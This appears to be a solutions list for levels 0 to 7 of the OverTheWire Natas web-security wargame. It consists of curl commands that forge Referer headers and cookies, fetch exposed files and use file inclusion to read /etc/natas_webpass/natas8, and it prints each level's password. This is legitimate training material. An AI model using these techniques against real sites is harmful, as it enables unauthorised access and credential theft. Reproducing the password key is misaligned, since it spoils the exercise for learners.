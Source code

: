 ### Solutions

curl --silent --user natas0:natas0 http://natas0.natas.labs.overthewire.org

curl --silent --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org

curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt

curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php

curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie loggedin=1 http://natas5.natas.labs.overthewire.org

curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --request POST --form 'submit=1' --form 'secret=FOEIUWGHFEEUHOFUOIU' http://natas6.natas.labs.overthewire.org

curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe